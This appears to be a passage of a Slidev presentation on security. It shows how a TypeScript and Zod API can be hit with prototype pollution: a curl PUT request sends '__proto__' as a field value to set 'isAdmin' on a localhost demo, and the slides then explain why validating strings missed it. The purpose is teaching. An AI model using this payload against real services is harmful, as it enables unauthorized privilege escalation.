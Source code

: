 <v-click at="1">

Hurray! 🎉

</v-click>

---
layout: cover
color: red
---

# TypeScript + Zod saves us??? 😱

#### Let's apply another offensive security trick... ☠️

```sh {all|4,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'

User notification setting updated successfully 
```


<v-click at="1">

Congrats, you're a hacker! 👏
</v-click>



---
layout: top-title
color: red-light
---

:: title ::

# Breaking Down the TS + Zod Bypass

:: content ::

- What security vulnerability did we not account for? 🤔

  - ✅ We validated (strings)
  - ❌ We didn't account for special kind of strings: `__proto__`

<div class="flex flex-row justify-between gap-4">

<div>

#### 1. Incoming HTTP Req

```sh {all|3}
$ curl -X PUT 
-d '{
"notificationType": "__proto__",
"notificationMode": "isAdmin",
"notificationModeValue": true
}'
```
